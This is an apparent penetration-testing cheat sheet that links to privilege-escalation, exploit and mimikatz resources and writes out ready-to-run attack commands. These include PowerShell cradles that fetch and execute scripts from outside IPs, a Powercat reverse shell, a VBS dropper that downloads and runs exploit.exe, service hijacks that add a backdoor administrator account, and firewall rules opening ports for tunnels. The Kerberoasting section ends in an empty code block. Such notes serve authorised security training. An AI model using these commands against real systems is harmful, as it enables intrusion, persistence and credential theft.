
## Reverse Shell Generator

https://www.revshells.com/

https://github.com/ferreirasc/oscp/tree/master/payloads

## One liner reverse shells

https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

## Windows Privesc Additional Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

https://www.fuzzysecurity.com/tutorials/16.html

## Linux Privesc Additional Resources

https://book.hacktricks.xyz/linux-hardening/privilege-escalation

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://guif.re/linuxeop

## File Transfers Additional Resources

https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

## Precompiled Binaries / exploits

https://github.com/SecWiki/windows-kernel-exploits

https://github.com/SecWiki/linux-kernel-exploits

## mimikatz

https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa

https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#open-shares

## Powershell Usefull Cradles to Download File

```
powershell.exe -NoP -NonI -Exec Bypass IEX "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.117/shell443.exe','shell443.exe')"
```

## Powershell Usefull Cradles to Download Script to memory and Execute it

This Example will download Powercat to memory and execute a reverse shell using Powercat without touching the disk

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString("http://172.16.242.173/powercat.ps1"); powercat -c 172.16.242.173 -p 4444 -e cmd.exe
```

You can use this technique to download any script to memory and execute functions from it like Powerview also

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

## VBS Cradle to Download Transfer File and Execute it

Transfer exploit.exe from your kali server to the target server and execute it

```
cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs&@echo objXMLHTTP.open "GET","http://192.168.119.142/exploit.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLHTTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFile "exploit.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objADOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=Nothing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vbs&@echo objShell.Exec("exploit.exe")>>poc.vbs&cscript.exe poc.vbs"
```

## Reconfigure Service

Reconfigure Service:

```
sc config ServiceName depend= "" start= demand binpath= "C:\Inetpub\wwwroot\shell443.exe" obj= ".\LocalSystem" password= ""
sc config ServiceName binPath= "cmd /c net user haxxor haxxor123 /add && net localgroup Administrators haxxor /add && net localgroup 'Remote Desktop Users' haxxor /add"
```
## Open /Allow Ports in Firewall
Allow Ports 80, 443 and 4444 as Inbound and outbound rules in the firewall (needs admin priveleges)
```
netsh advfirewall firewall add rule action=allow name=tunnelI dir=in protocol=tcp localport='80,443,4444'
netsh advfirewall firewall add rule action=allow name=tunnelO dir=out protocol=tcp remoteport='80,443,4444'
```
## Active Directory Resource

### Import Powerview into memory and execute commands

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

### Powerview Reference

https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview

### Active Directory Reference

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

## Kerberoasting

InvokeKerberoast powershell script will request a service ticket from the DC for the service accounts which you can then copy and crack

```
```
